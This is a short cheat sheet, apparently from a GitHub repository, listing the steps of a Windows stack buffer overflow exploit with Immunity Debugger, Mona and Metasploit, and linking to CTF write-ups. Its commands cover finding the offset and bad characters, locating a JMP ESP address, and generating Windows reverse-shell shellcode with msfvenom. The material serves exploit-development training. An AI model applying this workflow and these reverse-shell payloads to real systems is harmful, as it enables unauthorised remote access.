 # Buffer Overflow

## Immunity Debugger + Mona

- Set Mona Working Folder
```
!mona config -set workingfolder c:\mona\%p
```

- Generate pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```

- After crash, note EIP value then identity the offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012
```

- Compare memory with bytearray to find bad chars
```
!mona bytearray
!mona compare -a esp -f c:\path\to\bytearray.bin
```

- Find JMP ESP Address
```
!mona jmp -r esp
```

- Generate shellcode
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\x00" -f python EXITFUNC=thread
```

- Generate byte string
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Links
___
### Guides

### Writeups
- https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w
- https://noxious.tech/posts/Brainstorm/